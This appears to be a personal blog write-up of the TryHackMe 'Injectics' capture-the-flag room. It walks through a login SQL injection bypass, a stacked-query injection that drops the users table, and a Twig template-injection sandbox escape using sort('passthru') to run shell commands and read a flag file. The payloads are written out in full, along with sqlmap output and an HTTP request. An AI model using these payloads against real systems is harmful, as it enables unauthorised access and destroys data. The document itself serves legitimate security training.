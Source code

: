 ```yaml
---
title: "Writeup: TryHackMe Injectics"
date: "2025-02-13T04:47:13.438Z"
slug: "writeup-tryhackme-injectics"
categories:
    - "writeups"
---
```


> [!info]
> - [Injectics](https://tryhackme.com/room/injectics)
> - Difficulty: medium
> - Platform: web
> 
> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
>
> Answer the questions below:
> 1. What is the flag value after logging into the admin panel?
> 2. What is the content of the hidden text file in the flags folder?


This room acts as a final challenge for the advanced injection attacks module. Vulnerabilities explored were:
- Information disclosure
- SQL injections
- Server-side template injection

## Information gathering

I didn't go for the port scanning because it was evident that our focus was to find injection points in the web application.  

First, I checked the home page source code. It has interesting comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
```

Next, I explored the website. The only working link on the home page is to the `/login.php` page which also has "Login as administrator" link to `/adminLogin007.php`. Both are loading `script.js` which handles input validation:

```js
...
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
	if (username.includes(keyword)) {
		alert('Invalid keywords detected');
	   return false;
	}
}
...
```

The script checks for SQL keywords, thus, it seems like a good place to try SQLi.

Before doing that, I opened `/mail.log` file mentioned in the comments:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

Three important pieces here:
- There are two known users.
- Their info is stored in the table `users`.
- If something happens to the table, it gets recreated with the default credentials.

Just to be sure, I tried logging in with these credentials, but it wasn't successful. 

## Bypassing authentication: SQLi

I captured requests during login attempts with the Burp Suite. I copied them to files and used [sqlmap](https://sqlmap.org/) to find vulnerabilities. It could not detect anything for the administrator login page but successfully identified injection point for the normal login. 

```
$ sqlmap -r functions.req --level 4
...
sqlmap identified the following injection point(s) with a total of 1758 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=superadmin@injectics.thm' RLIKE SLEEP(5)-- MGux&password=&function=login
---
```

With the suggested payload, I logged into the dashboard.

> [!note]
> It's possible to achieve the same result with a simpler payload: `' || 1=1;-- -`


## Resetting users: SQLi

The dashboard provides the ability to edit the leader board. A`POST` request to `/edit_leaderboard.php` saves new data. Here I again used sqlmap to find vulnerable fields:

```
$ sqlmap -r edit.req --level 4
...
---
Parameter: gold (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: rank=1&country=&gold=MAKE_SET(1637=1637,3031)&silver=21&bronze=12345
---
...

```

I did a lot of poking around trying to exploit it. Breakthrough moment came with a very simple payload `42;` which updated medals for all countries instead of the selected one. 

So, I was ready to reset users by dropping their table using payload `42; drop table users;`:


```
POST /edit_leaderboard.php HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.170.160/edit_leaderboard.php?rank=1&country=USA
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://MACHINE_IP
Connection: keep-alive
Cookie: PHPSESSID=4jvgqrd1bqc47rqrv7m47id7q1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=6&country=&gold=0&silver=0&bronze=42; drop table users;

--- 

HTTP/1.1 200 OK
Date: Mon, 10 Feb 2_025 19:45:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> [!note]
> As you noticed, both attempts at using sqlmap only complicated things. Try simple stupid things first!

## Getting the first flag
After the user table was restored, I logged in as an administrator using credentials found in `mail.log`. Here, in the dashboard, we can see our first flag: `THM{REDACTED}`.


## Reading hidden flag file: RCE via SSTI

Next flag should be in the flags directory. If you navigate to `/flags` while logged in as an administrator, you receive access denied error; thus, we need to find another way to access this directory.

There is a "Profile" button which leads to `/update_profile.php` page with three editable fields: email, first name, last name. Editing first name changes to the dashboard greeting.

By then, I was pretty confident that we had to find a SSTI vulnerability because (a) it was part of the module (b) it's simple enough to allow RCE. My first payload was `{{7*'7'}}` to confirm that it was Twig templating engine.

Exploitation proved difficult for me. While trying [different payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig) I quickly understood that we're in the sandbox. So I tried exploiting [CVE-2022-23614](https://nvd.nist.gov/vuln/detail/CVE-2022-23614) vulnerability that allows bypassing sandbox mode via `sort` function. I was on the right track but ended up looking for a hint, because functions `exec` and `system` did not work. [There I learned](https://jaxafed.github.io/posts/tryhackme-injectics/) about another useful function: `passthru`.



First, a payload to list files in the directory `flags`:

```
{{['ls flags',""]|sort('passthru')|join}}
```

And finally, to get the flag:

```
{{['cat flags/REDACTED.txt',""]|sort('passthru')|join}}
```

![Screenshot of the dashboard with displayed flags](dashboard.png)

